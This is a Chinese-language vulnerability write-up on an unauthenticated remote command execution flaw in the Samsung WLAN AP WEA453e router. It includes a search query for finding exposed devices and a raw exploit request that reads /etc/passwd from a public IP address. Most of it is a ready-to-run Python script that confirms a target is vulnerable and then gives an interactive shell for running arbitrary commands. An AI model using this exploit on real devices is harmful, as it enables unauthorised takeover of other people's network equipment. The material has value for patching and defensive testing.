


三星 WLAN AP WEA453e路由器 远程命令执行漏洞¶
漏洞描述¶
三星 WLAN AP WEA453e路由器 存在远程命令执行漏洞，可在未授权的情况下执行任意命令获取服务器权限。
漏洞影响¶
三星 WLAN AP WEA453e路由器
网络测绘¶
title=="Samsung WLAN AP"
漏洞复现¶
登录页面如下
请求包如下
POST /(download)/tmp/a.txt HTTP/1.1
Host: 175.199.182.152
Connection: close
Content-Length: 48
command1=shell:cat /etc/passwd| dd of=/tmp/a.txt

漏洞POC¶
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: 三星 WLAN AP WEA453e路由器 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/(download)/tmp/a.txt"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded"
}
data = "command1=shell:cat /etc/passwd| dd of=/tmp/a.txt"
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
if "root" in response.text and response.status_code == 200:
print("\033[36m[o] 目标 {} 存在漏洞, 响应为:\n{}\033[0m".format(target_url, response.text))
while True:
cmd = str(input("\033[35mCmd >>> \033[0m"))
POC_2(target_url, cmd)
else:
print("\033[31m[x] 目标 {} 不存在默认管理员弱口令 \033[0m".format(target_url))
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
def POC_2(target_url, cmd):
vuln_url = target_url + "/(download)/tmp/a.txt"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded"
}
data = "command1=shell:{}| dd of=/tmp/a.txt".format(cmd)
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
print("\033[36m{} \033[0m".format(response.text))
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)
